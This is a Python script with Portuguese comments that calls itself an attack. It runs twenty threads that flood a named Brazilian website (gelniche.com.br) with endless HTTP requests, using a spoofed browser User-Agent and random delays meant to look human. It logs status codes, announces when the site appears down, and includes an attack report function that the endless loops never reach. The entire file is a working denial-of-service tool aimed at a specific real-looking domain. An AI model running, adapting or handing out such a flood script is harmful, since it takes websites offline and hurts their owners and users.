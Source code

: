 import threading
import requests
import time
import random

# URL do alvo
target_url = "https://gelniche.com.br"

# Cabeçalhos HTTP para imitar um navegador legítimo
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Accept-Language": "en-US,en;q=0.5"
}

# Variáveis para registro e análise
start_time = time.time()
end_time = None
success_count = 0
error_count = 0
status_codes = {}

# Função que realiza o ataque enviando solicitações HTTP com atraso
def perform_attack():
    global success_count, error_count, status_codes
    while True:
        try:
            response = requests.get(target_url, headers=headers)
            print(f"Enviado: {response.status_code}")
            success_count += 1
            # Registrar o código de status da resposta
            if response.status_code in status_codes:
                status_codes[response.status_code] += 1
            else:
                status_codes[response.status_code] = 1
            # Atraso aleatório entre 1 e 5 segundos para imitar comportamento humano
            time.sleep(random.uniform(1, 5))
        except requests.exceptions.RequestException as e:
            print(f"Erro: {e}")
            error_count += 1
            # Notificar que o site está fora do ar
            notify_site_down()
            # Aguardar um período antes de tentar novamente
            time.sleep(random.uniform(1, 3))

# Função para notificar que o site está fora do ar
def notify_site_down():
    global end_time
    end_time = time.time()
    print("O site está fora do ar!")

# Função para gerar e imprimir um relatório ao final do ataque
def generate_report():
    global start_time, end_time, success_count, error_count, status_codes
    print("\n--- Relatório de Ataque ---")
    print(f"Horário de início: {time.ctime(start_time)}")
    if end_time:
        print(f"Horário de fim: {time.ctime(end_time)}")
    else:
        print("Ataque ainda em andamento.")
    print(f"Número de solicitações bem-sucedidas: {success_count}")
    print(f"Número de erros: {error_count}")
    print("\nCódigos de status:")
    for code, count in status_codes.items():
        print(f"{code}: {count}")

# Número de threads
number_of_threads = 20

# Criar e iniciar threads
threads = []
for i in range(number_of_threads):
    thread = threading.Thread(target=perform_attack)
    threads.append(thread)
    thread.start()

# Esperar que todas as threads terminem
for thread in threads:
    thread.join()

# Gerar relatório ao final do ataque
generate_report()
